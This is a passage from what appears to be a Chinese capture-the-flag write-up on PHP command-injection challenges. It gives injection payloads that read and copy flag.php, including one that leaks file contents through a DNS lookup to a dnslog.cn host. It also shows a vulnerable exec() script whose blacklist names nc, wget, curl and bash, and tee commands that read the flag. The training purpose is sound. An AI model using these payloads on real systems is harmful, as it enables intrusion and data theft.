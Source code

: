 payload:

```
## 重定向
?F=`$F`;+nl flag.php>flag

## 重命名
?F=`$F `;mv flag.php 1.txt 

## 文件写入
?F=$F; cp flag.php 1.txt

## ping
?F=$F;+ping cat flag.php|awk 'NR==2'.6x1sys.dnslog.cn
```



## web136

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

Linux中可以使用tee命令写文件。

```
ls /|tee file
```

访问file,可以下载返回flag文件名`f149_15_h3r3`

```
nl /f149_15_h3r3 | tee file
```



## web137
